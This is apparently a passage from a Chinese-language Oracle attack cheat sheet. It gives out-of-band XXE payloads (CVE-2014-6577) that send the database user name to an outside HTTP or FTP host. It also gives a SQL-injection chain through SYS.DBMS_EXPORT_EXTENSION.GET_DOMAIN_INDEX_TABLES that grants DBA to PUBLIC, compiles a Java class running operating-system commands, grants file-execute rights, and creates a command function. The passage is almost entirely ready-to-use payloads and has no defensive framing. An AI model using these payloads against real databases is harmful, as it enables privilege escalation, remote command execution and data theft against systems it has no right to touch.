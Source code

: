 ## Oracle XXE (CVE-2014-6577)
说是xxe，实际上应该算是利用xml的加载外部文档来进行数据带外。支持http和ftp
1. http
```sql
select 1 from dual where 1=(select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://192.168.124.1/'||(SELECT user from dual)||'"> %remote;]>'),'/l') from dual); 
```

2. ftp
```sql
select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "ftp://'||user||':bar@IP/test"> %remote; %param1;]>'),'/l') from dual;
```

## 提权
前文说了Oracle可以调用Java程序

### GET_DOMAIN_INDEX_TABLES函数注入
影响版本:Oracle 8.1.7.4, 9.2.0.1 - 9.2.0.7, 10.1.0.2 - 10.1.0.4, 10.2.0.1-10.2.0.2

漏洞的成因是该函数的参数存在注入，而该函数的所有者是sys，所以通过注入就可以执行任意sql，该函数的执行权限为public，所以只要遇到一个oracle的注入点并且存在这个漏洞的，基本上都可以提升到最高权限。

1. 权限提升
```sql
http://localhost:8080/oracleInject/index?username=admin' and (SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS _OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant dba to public'''';END;'';END;--','SYS',0,'1',0)) is not null--
```
2. 创建Java代码执行命令
```sql
http://localhost:8080/oracleInject/index?username=admin' and (select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT" .PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace and compile java source named "Command" as import java.io.*;public class Command{public static String exec(String cmd) throws Exception{String sb="";BufferedInputStream in = new BufferedInputStream(Runtime.getRuntime().exec(cmd).getInputStream());BufferedReader inBr = new BufferedReader(new InputStreamReader(in));String lineStr;while ((lineStr = inBr.readLine()) != null)sb+=lineStr+"\n";inBr.close();in.close();return sb;}}'''';END;'';END;--','SYS',0,'1',0) from dual) is not null --
```

3. 赋予Java执行权限
```sql
http://localhost:8080/oracleInject/index?username=admin' and (select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''begin dbms_java.grant_permission( ''''''''PUBLIC'''''''', ''''''''SYS:java.io.FilePermission'''''''', ''''''''<<ALL FILES>>'''''''', ''''''''execute'''''''' );end;'''';END;'';END;--','SYS',0,'1',0) from dual) is not null --
```

4. 创建函数
```sql
http://localhost:8080/oracleInject/index?username=admin' and (select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT" .PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace function cmd(p_cmd in varchar2) return varchar2 as language java name ''''''''Command.exec(java.lang.String) return String''''''''; '''';END;'';END;--','SYS',0,'1',0) from dual) is not null --
```
